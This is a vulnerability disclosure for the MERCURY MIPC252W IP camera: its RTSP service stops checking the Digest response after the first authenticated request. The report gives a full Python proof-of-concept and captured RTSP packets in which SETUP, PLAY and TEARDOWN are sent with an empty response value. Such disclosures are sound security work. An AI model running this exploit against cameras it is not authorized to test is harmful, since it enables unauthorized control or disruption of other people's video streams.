


# Information

**Vendor of the products:**  MERCURY

**Vendor's website:**  [https://www.mercurycom.com.cn/](https://www.mercurycom.com.cn/)

**Reported by:**  YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html


# Overview

MERCURY MIPC252W IP camera firmware 1.0.5 Build 230306 Rel.79931n contains an improper authentication vulnerability in the RTSP service. After successful Digest authentication in an initial DESCRIBE request, the device does not verify the Digest response parameter in subsequent RTSP requests within the same session. As a result, RTSP methods such as SETUP, PLAY, and TEARDOWN can be processed even when the Authorization header contains an empty or invalid response value, as long as the nonce and session identifier correspond to a previously authenticated session. This allows an attacker with network access to reuse session parameters and issue unauthorized RTSP control commands without computing a valid Digest response.


# POC

After running the PoC, the script establishes an RTSP connection with the target camera and performs the standard RTSP authentication sequence. It first sends an unauthenticated `DESCRIBE` request to obtain the server nonce and then completes a valid Digest authentication in a subsequent `DESCRIBE` request.

After successful authentication, the script continues the RTSP session by sending `SETUP`, `PLAY`, and `TEARDOWN` requests in which the Digest `response` parameter in the `Authorization` header is intentionally set to an empty value. Despite the missing authentication response, the device accepts and processes these RTSP control requests normally.

This behavior demonstrates that the RTSP service does not verify the Digest `response` parameter after the initial successful authentication and allows RTSP methods to be executed without valid per-request authentication, confirming the improper authentication vulnerability.

```python
#!/usr/bin/env python3
"""
Tested device:
- Vendor: MERCURY
- Model: MIPC252W
- Firmware: 1.0.5 Build 230306 Rel.79931n

This code is for authorized security research purposes only.
"""

import socket
import time
import hashlib

CAMERA_IP = "TARGET_IP"   # replace with target device IP
RTSP_PORT = 554
RTSP_URI = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1"

USERNAME = "admin"
REALM = "MERCURY IP-Camera"

# Precomputed HA1 value (device/user specific, used only for PoC)
HA1 = hashlib.md5(f"{USERNAME}:{REALM}:{YOUR_PASSWORD}".encode()).hexdigest() #Calculations must be performed based on the manufacturer's authentication scheme and your own username and password.

def calculate_response(nonce, method, uri):
    """Calculate RTSP Digest authentication response"""
    ha2 = hashlib.md5(f"{method}:{uri}".encode()).hexdigest()
    return hashlib.md5(f"{HA1}:{nonce}:{ha2}".encode()).hexdigest()

# Create RTSP connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
sock.send(options_req.encode())
time.sleep(1)
options_res = sock.recv(4096).decode(errors="ignore")
print("OPTIONS Response:\n", options_res)

# 2. DESCRIBE (unauthenticated)
describe1_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe1_req.encode())
time.sleep(1)
describe_res = sock.recv(4096).decode(errors="ignore")
print("DESCRIBE_1 Response:\n", describe_res)

# Extract nonce
nonce = None
for line in describe_res.split("\r\n"):
    if "nonce=" in line:
        nonce = line.split('nonce="')[1].split('"')[0]
        break

if not nonce:
    print("[!] Failed to get nonce from response")
    sock.close()
    exit(1)

response = calculate_response(nonce, "DESCRIBE", RTSP_URI)

# 3. DESCRIBE (authenticated)
describe2_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"{response}\"\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe2_req.encode())
time.sleep(1)
describe_res = sock.recv(4096).decode(errors="ignore")
print("DESCRIBE_2 Response:\n", describe_res)

# 4. SETUP track1 (normal)
setup1_req = (
    f"SETUP {RTSP_URI}/track1 RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n" #response设置为空，不再认证了
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
sock.send(setup1_req.encode())
time.sleep(1)
setup_res = sock.recv(4096).decode(errors="ignore")
print("SETUP_1 Response:\n", setup_res)

# Extract Session ID
session_id = None
for line in setup_res.split("\r\n"):
    if line.startswith("Session:"):
        session_id = line.split(":")[1].split(";")[0].strip()
        break

if not session_id:
    print("[!] Failed to get session ID")
    sock.close()
    exit(1)

# 5. SETUP track2 
setup2_req = (
    f"SETUP {RTSP_URI}/track2 RTSP/1.0\r\n"
    f"CSeq: 6\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n" #response设置为空，不再认证了
    f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(setup2_req.encode())
time.sleep(1)
setup_res = sock.recv(4096).decode(errors="ignore")
print("SETUP_2 Response:\n", setup_res)

# 6. PLAY
play_req = (
    f"PLAY {RTSP_URI}/ RTSP/1.0\r\n"
    f"CSeq: 7\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n" #response设置为空，不再认证了
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n"
    f"Range: npt=0.000-\r\n\r\n"
)
sock.send(play_req.encode())
time.sleep(1)

# 7. TEARDOWN
teardown_req = (
    f"TEARDOWN {RTSP_URI}/ RTSP/1.0\r\n"
    f"CSeq: 8\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n" #response设置为空，不再认证了
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(teardown_req.encode())
time.sleep(1)

print("[*] PoC finished.")
sock.close()

```

Below is an example of a complete RTSP request packet from our verification process.

```
OPTIONS rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

DESCRIBE rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 4
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54",  uri="rtsp://192.168.0.149:554/stream1", response="178011fa106a74cb806124d26be09dd1"#动态计算，response第一次认证通过后，后续请求就不再验证response，我们设置后面的response为空置。
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://192.168.0.149:554/stream1/track1 RTSP/1.0
CSeq: 5
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://192.168.0.149:554/stream1/track2 RTSP/1.0
CSeq: 6
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: 5579378E

PLAY rtsp://192.168.0.149:554/stream1/ RTSP/1.0
CSeq: 7
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
Range: npt=0.000-

TEARDOWN rtsp://192.168.0.149:554/stream1/ RTSP/1.0
CSeq: 8
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
```


# Attack Demo

The vulnerability can be triggered by sending a crafted RTSP authentication request sequence. After establishing a legitimate RTSP session with the device and completing the initial Digest authentication via a valid `DESCRIBE` request, an attacker continues the RTSP negotiation using `SETUP`, `PLAY`, and `TEARDOWN` requests in which the Digest `response` parameter is intentionally left empty in the `Authorization` header.

When processing this abnormal authentication sequence, the RTSP service accepts and executes these RTSP control requests without validating the Digest response value. The RTSP session remains active and media streaming proceeds normally despite the missing authentication response, demonstrating that per-request Digest authentication is not enforced after the initial authentication.





As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level authentication flow analysis is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided showing that RTSP control messages with empty Digest responses are still accepted after a single successful authentication.

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/MERCURY_IPC252W_4th


# Supplement

This vulnerability allows an attacker with network access to issue RTSP control requests within an established RTSP session without providing a valid Digest authentication response. After a single successful authentication, subsequent RTSP requests containing an empty or invalid `response` parameter in the `Authorization` header are accepted and processed by the device, indicating that Digest authentication is not revalidated per request.

Successful exploitation enables an attacker to reuse RTSP session parameters to send unauthorized control messages such as `SETUP`, `PLAY`, or `TEARDOWN` within the authenticated session context. This may allow manipulation or disruption of RTSP streaming behavior, reducing the security assurance of the device’s RTSP authentication mechanism in real-world deployment scenarios.

The issue has been assigned a **CVSS v3.1** base score of **2.3(Low)** with the vector **CVSS:3.1/AV:L/AC:L/PR:H/UI:N/S:U/C:N/I:L/A:N**

